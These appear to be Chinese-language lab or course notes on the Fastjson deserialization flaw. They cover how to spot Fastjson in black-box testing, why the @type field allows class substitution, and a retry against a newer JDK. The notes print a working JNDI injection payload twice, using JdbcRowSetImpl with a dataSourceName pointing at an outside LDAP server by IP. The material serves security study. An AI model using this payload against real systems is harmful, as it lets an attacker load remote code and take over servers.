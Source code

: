 #### 漏洞利用尝试

直接把构造的payload填至输入框。

```html
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.83.186.173:1389/ejzqto","autoCommit":true}
```

成功后就是这个样子：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/1dc8deb680c84c558c536092aaa5bcd5.png" alt="img" style="zoom:50%;" />

#### 黑盒你怎么知道fastjson?所以利用漏洞poc

在500状态栏中有fastjson：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/0a257c3625074776a0e8379bbbc327e5.png" alt="img"  />

在发送数据时为json数据：

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/b1994780d20c4d848a6224e4aed90200.png)

#### 白盒知道fastjson,那poc为什么那样写?

和上节课相同

![image-20251023205503082](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/image-20251023205503082.png)

关键点在这里，在`@Type`这里可以进行对调用类的修改。反序列化时进行转换。

#### 为什么可以在com.sun.rowset.JdbcRowSetImpl中使用lookup？

[跳转到调用检索部分](#调用检索)

#### 不同版本jdk8u_362

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.83.186.173:1389/Test","autoCommit":true}
```

接收到了但没有反应，因为和fastjson逻辑还是不符合。

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/a269126e5bad422883a51928cb89db90.png" alt="img" style="zoom: 50%;" />

#### 总结

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/47a2a638ae8141a2bd6e547d76accb59.png)